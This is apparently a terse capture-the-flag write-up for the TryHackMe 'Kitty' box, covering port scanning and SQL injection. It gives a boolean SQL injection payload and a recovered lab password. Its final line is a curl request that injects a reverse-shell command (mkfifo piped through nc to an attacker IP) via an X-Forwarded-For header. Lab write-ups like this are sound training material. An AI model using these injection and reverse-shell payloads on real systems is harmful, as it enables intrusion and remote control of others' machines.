 # #1 introduction
<img width="647" alt="image" src="https://github.com/Mate0r/tryhackme.com/assets/94843357/0b9b87b9-98fb-4b13-ae10-fbfac330dd87">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx kitty.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- kitty.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)
kitty' AND 1=1#

kitty' AND password LIKE BINARY '%'

we add the binary cause LIKE is case insensitive
we will use kitty and password to connect to SSH

-> L0ng_Liv3_KittY

dbname : mywebsite

table: siteusers
fields: id,username,password,created_at


cat /etc/apache2/sites-enabled/dev_site.conf

kitty@kitty:/var/www/development$ curl -X POST -d "username=kitty&password=sleep" http://127.0.0.1:8080/index.php -H "X-Forwarded-For: 10.10.10.10;rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6666 >/tmp/f;"
